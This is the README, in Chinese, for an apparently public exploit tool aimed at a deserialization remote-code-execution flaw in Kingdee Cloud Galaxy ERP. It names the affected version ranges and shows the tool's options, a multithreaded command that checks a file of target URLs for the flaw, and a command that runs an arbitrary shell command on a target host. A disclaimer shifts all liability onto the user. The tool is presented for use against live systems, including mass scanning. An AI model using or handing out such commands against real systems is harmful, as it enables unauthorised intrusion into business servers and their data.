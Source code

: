 ## 金蝶云星空 Kingdee-erp-Unserialize-RCE

由于金蝶云星空数据通信默认采用的是二进制数据格式，需要进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。该漏洞不仅存在于金蝶云星空管理中心（默认8000端口），普通应用（默认80端口）也存在类似问题。

影响范围：

6.x版本：低于6.2.1012.4

7.x版本：7.0.352.16 至 7.7.0.202111

8.x版本：8.0.0.202205 至 8.1.0.20221110

```
usage: Kingdee-erp-Unserialize-RCE.py [-h] [-u URL] [--check] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY] [--cmd CMD]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. url.txt)
  --check               Check if vulnerable
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

### poc

```
python .\Kingdee-erp-Unserialize-RCE.py -f .\url.txt --check -t 10
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/1.png)

### exp

```
python .\Kingdee-erp-Unserialize-RCE.py -u http://host --cmd 'dir'
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/2.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。
